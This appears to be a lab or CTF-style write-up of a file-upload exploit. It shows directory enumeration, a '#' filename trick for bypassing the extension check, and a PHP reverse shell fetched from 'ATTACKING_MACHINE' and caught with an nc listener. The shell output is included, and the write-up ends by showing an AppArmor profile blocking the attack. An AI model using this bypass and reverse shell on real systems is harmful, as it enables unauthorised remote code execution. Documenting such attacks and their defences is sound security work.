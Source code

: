 ```bash
===============================================================
/css                  (Status: 301) [Size: 233] [--> http://{ip}/css/]
/javascript           (Status: 301) [Size: 240] [--> http://{ip}/javascript/]
/cloud                (Status: 301) [Size: 235] [--> http://{ip}/cloud/]
Progress: 81644 / 81644 (100.00%)
===============================================================
2023/06/18 08:58:48 Finished
===============================================================
```

http://{ip}/cloud/
<media-tag src="https://files.cryptpad.fr/blob/8d/8daf9ac849ec21e4dbb47ad964d87646024957588a06dbf5" data-crypto-key="cryptpad:g7TDK6nCE326MYJ/uSKrvITXcllbohg1lFqXwYWuqGY="></media-tag>

There are many different ways to bypass fileextension checks (https://book.hacktricks.xyz/pentesting-web/file-upload).
The easiest way in this case is a comment char **'#'**.

This means we can prepare a php reverse shell (https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) with IP adress and port of our attacking machine and serve it, so that we can download it to the target machine via the external URL. Either by uploading the shell.php somewhere or starting a local web-server(`python3 -m http.server 8080`), if  the attacking machine is reachable from the target machine.

In the next step we can *upload* the shell to the targe with "http://ATTACKING_MACHINE:8080/shell.php#.jpg". The upload form cuts off the filename at the # char, and downloads 'shell.php' to /cloud/images/shell.php.

Now, we only have to start a listener `nc -lnvp 4269` and call http://{ip}/cloud/images/shell.php to connect back.

Usually, we would get a shell as www-data:
```bash
alex@v2202305199910228407:~$ nc -lvnp 4269
Listening on 0.0.0.0 4269
Connection received on {ip} 60422
Linux v2202305199910228407 5.15.0-75-generic #82-Ubuntu SMP Tue Jun 6 23:10:23 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
 09:36:16 up  1:53,  3 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
alex     pts/0    84.115.210.29    08:07    1:56   0.08s  0.01s sshd: alex [priv]   
alex     pts/1    84.115.210.29    09:34   48.00s  0.03s  0.04s sudo -i
alex     pts/2    84.115.210.29    09:35   16.00s  0.02s  0.00s nc -lvnp 4269
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```

But thanks to our apparmor profile for php-fpm, the **RCE is blocked**. 

Kernel log entry:
```bash
Jun 18 10:19:51 v2202305199910228407 kernel: [ 9402.325597] audit: type=1400 
audit(1687076391.577:569): apparmor="DENIED" operation="create" 
profile="/usr/sbin/php-fpm8.1" pid=24513 comm="php-fpm8.1" family="inet" 
sock_type="stream" protocol=0 requested_mask="create" denied_mask="create"
```
